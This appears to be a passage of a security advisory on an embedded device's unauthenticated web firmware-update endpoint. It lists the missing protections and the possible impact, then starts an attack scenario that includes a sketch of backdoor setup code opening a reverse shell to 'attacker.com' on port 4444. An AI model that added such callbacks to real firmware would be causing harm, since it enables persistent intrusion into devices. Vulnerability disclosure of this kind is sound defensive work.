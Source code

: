 ```cpp
            updateSuccessful = true;
        }
        
        delay(2000);
        ESP.restart();  // Execute new firmware immediately!
    }
});
```

**Security Issues:**

1. ✗ **No Authentication** - Anyone can upload firmware
2. ✗ **No Digital Signature Verification** - No cryptographic validation
3. ✗ **No Rollback Protection** - Can downgrade to vulnerable versions
4. ✗ **No Anti-Rollback Counter** - No version enforcement
5. ✗ **No Secure Boot** - No hardware root of trust
6. ✗ **Direct /serverIndex Access** - Bypasses /login page
7. ✗ **Client-Side Login** - JavaScript validation only

### Impact

An attacker can:

1. **Install Backdoored Firmware**
   - Persistent remote access
   - Credential harvesting
   - Network pivoting

2. **Join Device to Botnet**
   - DDoS participation
   - Cryptomining
   - Spam distribution

3. **Brick the Device**
   - Intentional malfunction
   - Denial of service
   - Ransom scenarios

4. **Downgrade Attack**
   - Reinstall older vulnerable firmware
   - Exploit known vulnerabilities

5. **Supply Chain Attack**
   - Compromise multiple devices
   - Widespread infection

### Attack Scenario

```
┌─────────────────────────────────────────────────────────────┐
│            MALICIOUS FIRMWARE UPLOAD ATTACK                 │
└─────────────────────────────────────────────────────────────┘

Step 1: Create Malicious Firmware
──────────────────────────────────────
1. Clone legitimate firmware source
2. Add backdoor code:

void setup() {
    // Legitimate setup...
    
    // BACKDOOR: Open reverse shell
    connectToC2Server("attacker.com", 4444);
}

void loop() {
    // Process remote commands
```